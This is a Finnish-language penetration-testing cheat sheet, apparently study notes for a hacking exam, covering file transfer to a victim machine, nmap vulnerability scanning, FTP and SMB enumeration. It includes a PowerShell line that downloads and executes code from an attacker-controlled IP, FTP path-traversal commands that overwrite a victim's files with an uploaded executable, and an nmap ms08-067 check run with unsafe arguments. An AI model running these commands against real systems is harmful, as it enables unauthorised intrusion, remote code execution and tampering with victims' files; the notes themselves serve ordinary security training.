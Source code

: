 ## Powershellillä:
  * powershell IEX(New-Object Net.WebClient).DownloadString('http://IP:80/accesschk.exe')
  * powershell Invoke-WebRequest -Uri "http://<IP>:80/accesschk.exe" -OutFile "C:\Users\Matti\AppData\Local\Temp\accesschk.exe"

## TFTP:
  * Kalissa: atftpd --daemon --port 69 <jaettava kansio>
  * Uhrikoneessa: tftp -i <IP> GET <tiedosto>


# Skannailu ja enumeraatio

* https://highon.coffee/blog/nmap-cheat-sheet/

## Palvelujen swiippaus aliverkosta
 * nmap -sS -p <palvelun portti> <IP>/<PEITE>

## Vulnien ja exploittien skannaus:
 * nmap -vv -n -Pn -A -sV --script vuln,exploit -p- -oA <IP>-scan <IP>
 * Kokeessa: nmap -vv -n -Pn -A -sV --script vuln,exploit -p- -oA <IP>-scan <IP>

## Nopea UDP:
 * nmap -n -vv -Pn -sU -p- 1000 <IP> -oA udp-scan-<IP> --max-retries 3 --min-rate 750

## FTP
 * Anonyymi kirjautuminen:
  - Käyttäjänimi: ftp tai anonymous
  - Salasana: mikä vain
 * FTP documents and settings
  - ls ../../../../Docume~1/
  - get ../../../../../../../../Docume~1/Matti/Desktop/servers.py
  - put kissa.exe ../../../../../../../../Docume~1/Matti/Desktop/servers.py
  - put kissa.exe "../../../../../../../../Docume~1/All Users/Desktop/"

## Nikto Burbin kera:
 * nikto -host <IP> -useproxy http://localhost:8080

## SMB enumerointi
 * nmap <IP> --script smb-os-discovery.nse
 * nbtscan -r <IP>
 * enum4linux -a <IP>
 * nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 <IP>
 * use auxiliary/scanner/smb/smb_version

## SMB vulnien skannaus
 * nmap -v --script "smb-vuln-*" -iL iplist.txt -oG smb_vuln_hosts_grep.txt > smb_vuln_hosts.txt
